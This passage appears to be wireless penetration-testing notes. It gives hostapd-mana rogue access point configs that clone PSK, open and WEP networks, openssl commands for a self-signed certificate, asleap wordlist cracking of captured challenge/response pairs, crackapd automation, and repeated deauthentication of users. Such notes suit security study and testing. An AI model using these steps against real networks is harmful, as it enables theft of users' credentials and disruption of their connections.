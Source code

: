 `openssl dhparam 2048 > dhparam.pem`
##### keys
```
openssl genrsa -out server.key 2048
openssl req -new -sha256 -key server.key -out csr.csr
openssl req -x509 -sha256 -days 365 -key server.key -in csr.csr -out server.pem
ln -s server.pem ca.pem
```

#### WPA/2 Pre-Shared Keys (PSK Networks)
```
interface=wlan0
ssid=PSKNet
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=ASecurePassword
auth_algs=3
```

#### Hosts with No Encryption
```
interface=wlan1
ssid=hostel-A
hw_mode=g
channel=6
driver=nl80211
```

#### Hosts with WEP
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=hostel-A
auth_algs=1
wep_default_key=0
wep_key0="54321"
```

Attempt decrypt:
Copy and paste mana output where it says `asleap -C MAC -R MAC` and add wordlist to this.

`asleap -C MAC -R MAC -W /wordlist.txt` 

Automate using crackapd - which monitors and repeatedly tries asleap. if successful addes users to hostapd-mana users file.  

You may need to keep deauthenticating users to get a connection.  
